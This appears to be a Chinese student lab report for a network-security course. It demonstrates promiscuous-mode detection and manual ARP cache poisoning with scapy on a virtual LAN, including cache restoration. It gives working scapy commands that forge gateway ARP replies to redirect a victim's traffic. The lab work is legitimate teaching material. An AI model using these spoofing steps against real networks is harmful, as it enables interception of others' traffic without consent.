 # 网络监听

## 网络拓扑

![](imgs/map.png)

如图所示网络中的节点基本信息如下：

* 攻击者主机
    * 08:00:27:f1:cd:c3 / eth1
    * 172.16.111.101
* 受害者主机
    * 08:00:27:c8:63:67 / eth1
    * 172.16.111.107
* 网关
    * 08:00:27:80:25:2e / enp0s9 
    * 172.16.111.1

## 实验准备

### 安装 scapy

在攻击者主机上提前安装好 [scapy](https://scapy.net/) 。

```bash
# 安装 python3
sudo apt update && sudo apt install python3 python3-pip

# ref: https://scapy.readthedocs.io/en/latest/installation.html#latest-release
pip3 install scapy[complete]
```

![](imgs/scapy_install.png)

## 实验一：检测局域网中的异常终端

```bash
# 在受害者主机上检查网卡的「混杂模式」是否启用
ip link show eth1
```
(实验分两次做的，图片清晰度有些不一样)

![](imgs/promiscOff.png)

```bash
# 在攻击者主机上开启 scapy，不提升权限有些操作无法进行
sudo scapy
```
![](imgs/welcome.png)
```bash
# 在 scapy 的交互式终端输入以下代码回车执行
pkt = promiscping("172.16.111.107")
```
![](imgs/1promsiping.png)
```bash
# 回到受害者主机上开启网卡的『混杂模式』
# 注意上述输出结果里应该没有出现 PROMISC 字符串
# 手动开启该网卡的「混杂模式」
sudo ip link set eth1 promisc on
# 此时会发现输出结果里多出来了 PROMISC 
ip link show eth1
```
![](imgs/promiscOn.png)

```bash
# 回到攻击者主机上的 scapy 交互式终端继续执行命令
# 观察两次命令的输出结果差异
pkt = promiscping("172.16.111.107")
```
![](imgs/2promsiping.png)
```bash
# 在受害者主机上
# 手动关闭该网卡的「混杂模式」
sudo ip link set eth0 promisc off
```

## 实验二：手工单步“毒化”目标主机的 ARP 缓存

### 获取当前局域网的网关 MAC 地址
```python
# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="192.168.0.1")

# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()
```
![](imgs/arpbroadcast.png)
```bash
# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)

# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc
```
![](imgs/mac.png)
### 伪造网关的 ARP 响应包
```bash
# 准备发送给受害者主机
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
# 这里要注意按照课件的代码试不能“毒化”的，需要在外面加一层Ethernet帧头
arpspoofed = Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.107", hwdst="08:00:27:f1:cd:c3")

# 发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed)
```
![](imgs/arpspoofed.PNG)


此时在受害者主机上查看 ARP 缓存会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址

```bash
ip neigh
```
![](imgs/success.png)
### 恢复受害者主机的 ARP 缓存记录
```python
## 伪装网关给受害者发送 ARP 响应
restorepkt1 = Ether()/ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:80:25:2e", pdst="172.16.111.107", hwdst="08:00:27:c8:63:67")
sendp(restorepkt1, count=100, inter=0.2)
```
![](imgs/restore.PNG)


此时在受害者主机上准备“刷新”网关 ARP 记录。

```bash
## 在受害者主机上尝试 ping 网关
ping 172.16.111.1
## 静候几秒 ARP 缓存刷新成功，退出 ping
## 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
ip neigh
```
![](imgs/ping_gateway.PNG)
![](imgs/ac.PNG) 
## 参考
- [黄大的课件](https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html)
- [使用scapy模块编写ARP欺骗脚本 - OSChina](https://my.oschina.net/u/4580309/blog/4358219)
